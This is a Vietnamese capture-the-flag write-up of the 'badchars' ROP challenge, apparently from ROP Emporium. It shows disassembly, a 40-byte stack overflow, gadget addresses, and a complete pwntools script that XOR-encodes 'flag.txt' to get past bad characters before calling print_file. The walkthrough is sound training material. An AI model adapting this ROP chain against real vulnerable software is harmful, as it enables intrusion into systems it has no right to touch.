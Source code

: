 **1. Tìm lỗi**

Chạy thử chương trình ta được:

![run.png](photo/run.png)

Chương trình cho phép nhập vào một chuỗi và kết thúc ngay sau đó

Sử dụng lệnh checksec để kiểm tra

![checksec.png](photo/checksec.png)

Ta có CANARY đang ở trạng thái disabled nên có thể khai thác qua lỗi bof

Dùng lệnh file kiểm tra

![file.png](photo/file.png)

Ta thấy là file elf 64bit -> Mở bằng ida64 ta có

![file.png](photo/file.png)

Hàm pwnme:

```
   0x00007ffff7dc58fa <+0>:     push   rbp
   0x00007ffff7dc58fb <+1>:     mov    rbp,rsp
   0x00007ffff7dc58fe <+4>:     sub    rsp,0x40
   0x00007ffff7dc5902 <+8>:     mov    rax,QWORD PTR [rip+0x2006cf]        # 0x7ffff7fc5fd8
   0x00007ffff7dc5909 <+15>:    mov    rax,QWORD PTR [rax]
   0x00007ffff7dc590c <+18>:    mov    ecx,0x0
   0x00007ffff7dc5911 <+23>:    mov    edx,0x2
   0x00007ffff7dc5916 <+28>:    mov    esi,0x0
   0x00007ffff7dc591b <+33>:    mov    rdi,rax
   0x00007ffff7dc591e <+36>:    call   0x7ffff7dc57e0 <setvbuf@plt>
   0x00007ffff7dc5923 <+41>:    lea    rdi,[rip+0x17a]        # 0x7ffff7dc5aa4
   0x00007ffff7dc592a <+48>:    call   0x7ffff7dc5780 <puts@plt>
   0x00007ffff7dc592f <+53>:    lea    rdi,[rip+0x187]        # 0x7ffff7dc5abd
   0x00007ffff7dc5936 <+60>:    call   0x7ffff7dc5780 <puts@plt>
   0x00007ffff7dc593b <+65>:    lea    rax,[rbp-0x40]
   0x00007ffff7dc593f <+69>:    add    rax,0x20
   0x00007ffff7dc5943 <+73>:    mov    edx,0x20
   0x00007ffff7dc5948 <+78>:    mov    esi,0x0
   0x00007ffff7dc594d <+83>:    mov    rdi,rax
   0x00007ffff7dc5950 <+86>:    call   0x7ffff7dc57b0 <memset@plt>
   0x00007ffff7dc5955 <+91>:    lea    rdi,[rip+0x16c]        # 0x7ffff7dc5ac8
   0x00007ffff7dc595c <+98>:    call   0x7ffff7dc5780 <puts@plt>
   0x00007ffff7dc5961 <+103>:   lea    rdi,[rip+0x181]        # 0x7ffff7dc5ae9
   0x00007ffff7dc5968 <+110>:   mov    eax,0x0
   0x00007ffff7dc596d <+115>:   call   0x7ffff7dc57a0 <printf@plt>
   0x00007ffff7dc5972 <+120>:   lea    rax,[rbp-0x40]
   0x00007ffff7dc5976 <+124>:   add    rax,0x20
   0x00007ffff7dc597a <+128>:   mov    edx,0x200
   0x00007ffff7dc597f <+133>:   mov    rsi,rax
   0x00007ffff7dc5982 <+136>:   mov    edi,0x0
   0x00007ffff7dc5987 <+141>:   call   0x7ffff7dc57c0 <read@plt>
   0x00007ffff7dc598c <+146>:   mov    QWORD PTR [rbp-0x40],rax
   0x00007ffff7dc5990 <+150>:   mov    QWORD PTR [rbp-0x38],0x0
   0x00007ffff7dc5998 <+158>:   jmp    0x7ffff7dc59eb <pwnme+241>
   0x00007ffff7dc599a <+160>:   mov    QWORD PTR [rbp-0x30],0x0
   0x00007ffff7dc59a2 <+168>:   jmp    0x7ffff7dc59d5 <pwnme+219>
   0x00007ffff7dc59a4 <+170>:   mov    rax,QWORD PTR [rbp-0x38]
   0x00007ffff7dc59a8 <+174>:   movzx  ecx,BYTE PTR [rbp+rax*1-0x20]
   0x00007ffff7dc59ad <+179>:   mov    rax,QWORD PTR [rbp-0x30]
   0x00007ffff7dc59b1 <+183>:   mov    rdx,QWORD PTR [rip+0x200628]        # 0x7ffff7fc5fe0
   0x00007ffff7dc59b8 <+190>:   movzx  eax,BYTE PTR [rdx+rax*1]
   0x00007ffff7dc59bc <+194>:   cmp    cl,al
   0x00007ffff7dc59be <+196>:   jne    0x7ffff7dc59c9 <pwnme+207>
   0x00007ffff7dc59c0 <+198>:   mov    rax,QWORD PTR [rbp-0x38]
   0x00007ffff7dc59c4 <+202>:   mov    BYTE PTR [rbp+rax*1-0x20],0xeb
   0x00007ffff7dc59c9 <+207>:   mov    rax,QWORD PTR [rbp-0x30]
   0x00007ffff7dc59cd <+211>:   add    rax,0x1
   0x00007ffff7dc59d1 <+215>:   mov    QWORD PTR [rbp-0x30],rax
   0x00007ffff7dc59d5 <+219>:   mov    rax,QWORD PTR [rbp-0x30]
   0x00007ffff7dc59d9 <+223>:   cmp    rax,0x3
   0x00007ffff7dc59dd <+227>:   jbe    0x7ffff7dc59a4 <pwnme+170>
   0x00007ffff7dc59df <+229>:   mov    rax,QWORD PTR [rbp-0x38]
   0x00007ffff7dc59e3 <+233>:   add    rax,0x1
   0x00007ffff7dc59e7 <+237>:   mov    QWORD PTR [rbp-0x38],rax
   0x00007ffff7dc59eb <+241>:   mov    rdx,QWORD PTR [rbp-0x38]
   0x00007ffff7dc59ef <+245>:   mov    rax,QWORD PTR [rbp-0x40]
   0x00007ffff7dc59f3 <+249>:   cmp    rdx,rax
   0x00007ffff7dc59f6 <+252>:   jb     0x7ffff7dc599a <pwnme+160>
   0x00007ffff7dc59f8 <+254>:   lea    rdi,[rip+0xed]        # 0x7ffff7dc5aec
   0x00007ffff7dc59ff <+261>:   call   0x7ffff7dc5780 <puts@plt>
   0x00007ffff7dc5a04 <+266>:   nop
   0x00007ffff7dc5a05 <+267>:   leave
   0x00007ffff7dc5a06 <+268>:   ret
   ```

Ta thấy khoảng cách từ biến cho nhập đến ret là 0x20 + 0x8 = 40 nhưng chương trình cho phép nhập 0x200 = 512 byte nên có thể nhập tràn từ biến đến ret

Hàm usefulFunction:

![use.png](photo/use.png)

Hàm print_file:

![print_file.png](photo/print_file.png)

Ta thấy ở hàm print_file khi truyền chuỗi tên file vào rdi thì hàm sẽ in nội dụng của file ra nên chúng ta có thể truyền chuỗi flag.txt vào để lấy giá trị flag

Hàm usefulGadgets:

![gad.png](photo/gad.png)

Ở hàm này địa chỉ 0x0000000000400634 chứa câu lệnh mov [r13], r12 nên có thể tận dụng để truyền chuỗi flag.txt vào r13 rồi truyền qua rdx

Để gán dữ liệu vào r13 và r12 thì chúng ta cần pop chúng ra:

![pop_r12.png](photo/pop_r12.png)

Ở địa chỉ 0x000000000040069c đã có câu lệnh pop luôn cả r12 và r13

**2. Ý tưởng**

Ở ngay lúc chạy chương trình đã có báo các ký tự xấu là x, g, a, ., mà chuỗi flag.txt lại có 4 cả nên không thể truyền trực tiếp vào được.

Theo gợi ý của bài thì chúng ta có thể thay đổi chuỗi flag.txt thành giá trị khác để vượt qua được badchar rồi trả lại chuỗi flag.txt và gán vào thanh ghi

Vậy ta có thứ tự thực hiện như sau:

- Truyền chuỗi đã vượt qua được badchars vào thanh ghi r12, r13

- Dùng hàm tạo riêng để trở về chuỗi flag.txt rồi gán vào r14

- Truyền dữ liệu vào print_file qua thanh ghi rdi

**3. Viết script**

Tìm địa chỉ còn trống để lưu chuỗi vào

![vmmap.png](photo/vmmap.png)

Ta có địa chỉ 0x601030 còn trống nên có thể ghi vào

Ta có script như sau:

```
from pwn import *

r = process("./badchars")

def ascii2hex(value):
    result = ""
    for i in value:
        result += hex(ord(i))[2:]
    return result

def doiVe0x(value):
    length = len(value)
    result = "0x"
    for i in range(length-1, 0, -2):
        result += value[i-1] + value[i]
    return result

def process(value):
    return int(doiVe0x(ascii2hex(value)), 16)

def processBadchar(value):
    result = ""
    for i in value:
        result += chr(int(ascii2hex(i), 16) ^ 2)
    return process(result)


pop_r12 = 0x000000000040069c
r12 = processBadchar("flag.txt")
r13 = 0x601030
mov_r13_r12 = 0x400634
xor_r14_r15 = 0x400628
pop_r14 = 0x00000000004006a0
pop_rdi = 0x00000000004006a3
print_file = 0x0000000000400620

payload = b'a'*40
payload += p64(pop_r12)
payload += p64(r12) + p64(r13) + p64(0) + p64(0)
payload += p64(mov_r13_r12)

for i in range(8):
    payload += p64(pop_r14)
    payload += p64(2) + p64(r13 + i)
    payload += p64(xor_r14_r15)

payload += p64(pop_rdi)
payload += p64(r13)
payload += p64(print_file)

r.sendafter('> ', payload)
r.interactive()
```

**4. Lấy flag**

![flag.png](photo/flag.png)
